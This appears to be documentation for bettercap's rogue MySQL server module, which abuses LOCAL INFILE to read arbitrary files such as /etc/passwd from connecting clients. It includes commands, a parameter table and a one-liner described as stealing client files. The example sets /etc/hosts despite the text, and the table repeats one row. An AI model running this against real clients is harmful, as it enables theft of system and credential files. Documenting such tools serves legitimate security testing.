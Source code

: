 ```yaml
---
title: "mysql.server (rogue)"
date: 2019-02-25T13:25:31+01:00
draft: false
weight: 3
---
```


A rogue MySQL server that can be used to exploit [LOCAL INFILE and read arbitrary files](/modules/ethernet/spoofers/) from the client.

### Commands

#### `mysql.server on`

Start mysql server.

#### `mysql.server off`

Stop mysql server.

### Parameters

| parameter | default | description |
|-----------|---------|-------------|
| `mysql.server.infile` | `/etc/passwd` | File you want to read. UNC paths are also supported. | 
| `mysql.server.outfile` | | If filled, the INFILE buffer will be saved to this path instead of being logged. |
| `mysql.server.address` |  `<interface address>` | Address to bind the mysql server to. |
| `mysql.server.port` | `3306` | Port to bind the mysql server to. |
| `mysql.server.outfile` | If filled, the INFILE buffer will be saved to this path instead of being logged. | 

**Examples**

One liner to start the server and steal /etc/passwd from clients connecting to your Rogue MySQL server

    $ sudo bettercap -eval "set mysql.server.infile /etc/hosts; mysql.server on"

Now connect to your MySQL server and observe the file output on the Bettercap terminal

    $ mysql -u root -h 192.168.1.123 -pasdsasad --enable-local-infile

